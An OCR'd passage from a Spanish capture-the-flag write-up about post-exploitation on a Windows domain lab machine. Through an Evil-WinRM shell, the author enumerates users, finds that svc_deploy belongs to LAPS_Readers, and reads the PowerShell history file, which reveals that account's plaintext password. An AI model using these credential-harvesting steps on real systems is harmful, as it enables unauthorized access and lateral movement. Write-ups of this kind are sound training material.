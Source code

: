 Pero no vamos nada interesante además de **Remote Management use**, ahora vamos a enumerar los usuarios del sistema:

```
:\Users\legacyy> net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            babywyrm                 Guest
krbtgt                   legacyy                  payl0ad
sinfulz                  svc_deploy               thecybergeek
TRX
```

Luego de revisar todos los usuarios, uno en particular pertenece a un grupo especial:

```
*Evil-WinRM* PS C:\Users\legacyy> net user svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 11:12:37 AM
Password expires             Never
Password changeable          10/26/2021 11:12:37 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 11:25:53 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```

Pertenece al grupo **LAPS_Readers**, por lo tanto, necesitamos convertirnos en ese usuario.

Buscando vias potenciales, antes de utilizar herramientas como winPEAS y BloodHound, veremos si existe información en el historial de **powershell**:
```
*Evil-WinRM* PS C:\Users\legacyy>  type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
Si existe información, podemos observar una clave y nombre de usuario, **svc_deploy**. Haciendo uso de `crackmapexec` verificamos si las credenciales son correctas:
